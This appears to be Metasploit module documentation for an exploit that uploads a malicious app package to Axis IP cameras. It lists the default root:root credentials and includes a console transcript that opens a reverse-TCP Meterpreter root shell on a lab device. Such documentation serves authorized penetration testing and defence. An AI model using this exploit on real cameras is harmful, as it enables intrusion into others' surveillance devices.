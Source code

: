 ## Vulnerable Application

### Description

This module exploits the "Apps" feature in Axis IP cameras. The feature allows third party
developers to upload and execute 'eap' applications on the device. The system does not validate
the application comes from a trusted source, so a malicious attacker can upload and execute
arbitrary code. The issue has no CVE, although the technique was made public in 2018.

This module uploads and executes stageless meterpreter as `root` via the application upload
feature. The module will also uninstall the application upon completion. Uploading the application
requires valid credentials. The default administrator credentials used to be `root:root` but
newer firmware versions force users to provide a new password for the `root` user.

The module was tested on an Axis M3044-V using the latest firmware (9.80.3.8: December 2021).
All devices that support the "App" feature are presumed to be vulnerable at this time.

### Installation

Axis cameras are physical devices and aren't known to have been successfully emulated. However,
if you have a device, affected firmware can be downloaded from:

* https://www.axis.com/

A free account is required to navigate the site but you can download specific firmware without
authentication. For example, the latest version for the Axis M3044-V can be downloaded here:

* https://www.axis.com/ftp/pub/axis/software/MPQT/M3044-V/9_80_3_8/M3044-V_9_80_3_8.bin

## Verification Steps

* Acquire an affected device
* Do: `use exploit/linux/http/axis_app_install`
* Do: `set RHOST <ip>`
* Do: `set PASSWORD <password>`
* Do: `check`
* Verify the remote target is flagged as vulnerable
* Do: `set LHOST <ip>`
* Do: `exploit`
* You should get a Meterpreter session.

## Options

### USERNAME

The username to authenticate to the web server with. The default value is "root".

### PASSWORD

The password to authenticate to the web server with. The default value is "root".

## Scenarios

### Axis M3044-V using firmware 9.80.3.8. Get Meterpreter session.

```
msf6 > use exploit/linux/http/axis_app_install
[*] Using configured payload linux/armle/meterpreter_reverse_tcp
msf6 exploit(linux/http/axis_app_install) > options

Module options (exploit/linux/http/axis_app_install):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   root             yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   root             yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (linux/armle/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Dropper


msf6 exploit(linux/http/axis_app_install) > set RHOST 192.168.1.183
RHOST => 192.168.1.183
msf6 exploit(linux/http/axis_app_install) > check
[*] 192.168.1.183:80 - The target is not exploitable. The user provided credentials did not work.
msf6 exploit(linux/http/axis_app_install) > set PASSWORD labpass1
PASSWORD => labpass1
msf6 exploit(linux/http/axis_app_install) > check
[*] 192.168.1.183:80 - The target appears to be vulnerable. The target reports itself to be a 'AXIS M3044-V'.
msf6 exploit(linux/http/axis_app_install) > set LHOST 192.168.1.217
LHOST => 192.168.1.217
msf6 exploit(linux/http/axis_app_install) > run

[*] Started reverse TCP handler on 192.168.1.217:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target reports itself to be a 'AXIS M3044-V'.
[*] Creating an application package named: jtn
[*] Sending an application upload request to /axis-cgi/packagemanager.cgi
[+] Application installed. Pausing 5 seconds to let the filesystem sync.
[+] Deleted /etc/systemd/system/jtn.service
[*] Meterpreter session 1 opened (192.168.1.217:4444 -> 192.168.1.183:49602 ) at 2022-02-24 18:45:19 -0800
[*] Sending a delete application request to /axis-cgi/applications/control.cgi
[+] The application jtn was successfully removed from the target!

meterpreter > getuid
Server username: root
meterpreter > shell
Process 13863 created.
Channel 1 created.
id
uid=0(root) gid=0(root)
cat /proc/cpuinfo
processor	: 0
model name	: ARMv7 Processor rev 1 (v7l)
BogoMIPS	: 156.00
Features	: half thumb fastmult vfp edsp neon vfpv3 tls vfpd32
CPU implementer	: 0x41
CPU architecture: 7
CPU variant	: 0x4
CPU part	: 0xc09
CPU revision	: 1

Hardware	: Ambarella S2L (Flattened Device Tree)
Revision	: 0000
Serial		: 0000000000000000
pwd
/
```
